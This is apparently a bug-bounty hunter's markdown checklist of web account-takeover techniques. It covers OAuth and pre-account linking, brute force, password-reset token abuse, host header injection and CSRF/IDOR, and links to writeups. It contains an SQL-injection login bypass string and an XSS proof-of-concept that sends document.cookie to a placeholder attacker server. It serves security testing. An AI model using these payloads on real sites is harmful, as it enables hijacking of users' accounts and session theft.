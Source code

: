 [ ] **a lot of ideas in this article by omer hesham**
```
https://medium.com/bugbountywriteup/hubspot-full-account-takeover-in-bug-bounty-4e2047914ab5
```
[ ] **OAuth to Account takeover**
```
https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover
```


[ ] **Pre-Account Takeover**                                                  

A pre-account takeover occurs when an attacker creates a user account using one signup method and the victim creates another account using a different signup method using the same email address. Because the email addresses are the same, the application connects the two accounts. when the app is unable to validate email addresses.
```
How to hunt :-
    Try registering any email address without verifying it.
    Try registering an account again, but this time with a different method, such as ‘sign up with Google’ from same email address.
    Due to the fact that both email addresses are the same, the web application will link the two accounts.
    Now try logging in using the specified password and username. Check to see whether you can see information from that account that was retrieved via Google.
```


[ ] **Account takeover due to Improper Rate limit**
```
How to Hunt:-

    capture the request at the login page, while providing username and password.
    send it to intruder and Brute force it.
    Analyze the response and length.
```


[ ] **Account takeover by utilizing sensitive data exposure**
```
Sensitive data exposure occurs when a web application failed to properly protect confidential information, resulting in the disclosure of sensitive information or data about users, or anything related to them, to a third party.

Occasionally, the application displays unnecessary data, such as valid OTPs, hashes, or passwords, over the request and response parts. So it’s a good idea to pay attention to the response and request portions.
```


[ ] **login**                                                                                                                                 
```
1. check if you are able to brute force the password
2. Test for OAuth misconfigurations
3. check if you are able to bruteforce the login OTP
4. check for JWT mesconfigurations
5. Test for SQL injection to bypass authentication ```admin" or 1=1;--```
6. check if the application validates the OTP or Token
```


[ ] **password reset**
```
1. check if you are able to brute force the password reset OTP
2. test for token predectability
3. test for JWT misconfigurations
4. check if the password reset endpoint is vulnerable to IDOR
5. check if the password reset endpoint is vulnerable to Host Header injection
6. check if the password reset endpoint is leaking the token or OTP in the HTTP response
7. check if the application validates the OTP or Token
8. test for HTTP parameter Pollution (HPP)
    
```


[ ] **XSS to Account Takeover**

if the application does not use auth token or you can't access the cookies because the "HttpOnly" flag, you can obtain the CSRF token and craft a request to change the user's email or password       
```
1. try to exfiltrate the cookies
2. try to exfiltrate the Auth Token
3. if the cookie's "domain" attribute is set, search for xss in the subdomains and use it to exfiltrate the cookies
    - PoC Example:
        ```html
        
        <script>
            /*
            this script will create a hidden <img> element
            when the browser tries to load the image
            the victim's cookies will be sent to your server
            */

            var new_img = document.createElement('img');
            new_img.src = "http://yourserver/" + document.cookie;
            new_img.style = 'display: none;'
            document.body.appendChild(new_img);
        </script>

        ```
```


[ ] **CSRF to Account Takeover**
```
1. check if the email update endpoint is vulnerable to CSRF
2. check if the password change endpoint is vulnerable to CSRF
```


[ ] **IDOR to Account Takerover**
```
1. checck if the email update endpoint is vulnerable to IDOR
2. check if the password change endpoint is vulnerable to IDOR
3. check if the password reset endpoint vulnerable to IDOR
```


[ ] **Account takeover by Response & Status code Manipulation**


[ ] **Account takeover by exploiting Weak cryptography**
```
check this
https://infosecwriteups.com/weak-cryptography-in-password-reset-to-full-account-takeover-fc61c75b36b9
```


[ ] **Password or email change function**
```
IF you try to change password and see email parameter in password change request, Try changing your email to victim email
```


[ ] **Sing-Up Function**
```
IF you try to sing-up new account in target site, in email filed try set target email

IF you try to sing-up new account in target site using 3rd party, in 3d party use phone number instead email then link 3rd account with target site.Then Go setting try link victim email in you account
```

[ ] **Rest Token**
```
Try to use your REST Token with Target account. Hint: email=Target@email.com&code=$Attacker_TOKEN$

Brute Force Rest Token if it is numeric. Hint : email=Target@email.com&code=$TOKEN$

Try to figure out how the token are generated: 1. Generated based on TimeStamp OR ID of user OR email of user
```

[ ] **Host Header Injection**
```
when send rest account request intercept POST Request and Change Host header value from target.site TO Attacker.com: Hint POST /PassRest HTTP1/1 Host: Attacker.com
```

[ ] **CORS Misconfiguration to Account Takeover**

If the page contains CORS missconfigurations you might be able to steal sensitive information from the user to takeover his account or make him change auth information for the same purpose:
```
https://book.hacktricks.xyz/pentesting-web/cors-bypass
```
[ ] **Account takeover via leaked session cookie**
```
https://hackerone.com/reports/745324
```
[ ] **HTTP Request Smuggling to ATO**
```
https://hackerone.com/reports/737140
https://hackerone.com/reports/740037
```

[ ] **Bypassing Digits origin validation which leads to account takeover**
```
https://hackerone.com/reports/129873
```
[ ] Top ATO report in hackerone
```
https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPACCOUNTTAKEOVER.md
```
